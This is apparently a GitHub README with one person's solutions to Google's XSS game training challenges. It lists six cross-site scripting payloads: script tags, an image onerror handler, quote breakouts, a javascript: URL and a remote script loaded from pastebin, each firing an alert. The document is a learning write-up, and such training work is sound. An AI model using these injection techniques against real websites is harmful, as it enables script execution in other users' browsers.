 # xss-game
---
  https://xss-game.appspot.com/
  
  Hello there, thank you sooo much for reading! :) 
  Here are my solutions to the google xss game.
  I've noticed that some challenges don't work out with every browser, so try it with multiple ones.

---
 
## Level1: Hello, world of XSS

Solution: `<script> alert("hi") </script> `

- Simply set a new `<script>` tag containing the alert.

---

## Level2: Persistence is key

Solution: `<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`

- I've XSS'ed it through posting a not available image.
- Onerror means if the picture is not available it runs the code.
- The String.fromCharCode creates the word "XSS" from charcode.
  (88=X 83=S)

---

## Level3: That sinking feeling...

Solution: http://xss-game.appspot.com/level3/frame#1`' onerror="alert('XSS')"`

- In this challenge you're only able to XSS the URL bar.
- It's not working with every browser! -> chrome worked out 
- I've added a ' to make the frame#1 unaccessable so the onerror alert gets run.

---

## Level4: Context matters

Solution: `');alert('xss`

- Escape the function with ');
- call the new alert with ('xss

---

## Level5: Breaking protocol

Solution: `http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")`

- First press signup.
- Replace the vulnerable url with the one from the solution.
- Press next so the js code gets run.

---

## Level6: Follow the white rabbit

Solution: `http://xss-game.appspot.com/level6/frame#hTTP://pastebin.com/raw/ycjGCXDY`

- open pastebin.com and paste: alert("XSS");
- Next get the raw link of your XSS file.
- Now add the link to the vulnerable url and modify the http, so it won't get recognised. 


